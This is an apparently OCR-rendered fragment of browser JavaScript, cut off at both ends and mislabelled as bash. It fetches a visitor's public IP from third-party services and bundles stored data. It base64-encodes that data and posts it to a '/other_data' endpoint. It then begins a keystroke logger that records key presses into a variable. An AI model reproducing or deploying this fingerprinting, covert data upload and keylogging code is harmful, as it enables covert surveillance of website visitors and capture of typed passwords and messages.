```bash
  jsonp: 'jQuery1124018281896477578718_1606458878259',
  data: {'_': '1606458878259'},
  success: function success(res) {
    localStorage.setItem('sohu_public_ip', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});


function send_data(types) {
  var data = {};
  data["public_ip"] = {};

  try {
    data["public_ip"]['taobao_public_ip'] = JSON.parse(localStorage.getItem('pub_ip'))['ip'];
  } catch (e) {
    data["public_ip"]['taobao_public_ip'] = "taobaoip 获取接口可能已失效或者未设置，请尽快检查";
  } finally {}
  try {
        data["public_ip"]["sohu_public_ip"] = JSON.parse(localStorage.getItem('sohu_public_ip'))["data"]["ip"];
      } catch (e) {
        data["public_ip"]['sohu_public_ip'] = "sohu_ip 获取接口可能已失效或者未设置，请尽快检查";
      } finally {}

  types.forEach(function (item) {
  if (item.endsWith("ip")){

  }else{
      data[item] = JSON.parse(localStorage.getItem(item));
    }
  });
  // var jp = new FormData();
  // jp.append("jInfo", window.btoa(unescape(encodeURIComponent(JSON.stringify(data)))));
  fetch('/other_data', {
    method: 'POST',
    cache: "no-cache",
    body: window.btoa(unescape(encodeURIComponent(JSON.stringify(data))))
  });
}

var logger = "";

var keyDown = function keyDown(e) {
  var e = e || event;
  var currKey = e.keyCode || e.which || e.charCode;
  var keyName = ""
  if (currKey > 7 && currKey < 32 || currKey > 31 && currKey < 47) {
    switch (currKey) {
      case 8:
        keyName = "[退格]";
        break;

      case 9:
        keyName = "[制表]";
        break;

      case 13:
        keyName = "[回车]";
        break;
      //case 16:keyName = "[shift]"; break;
```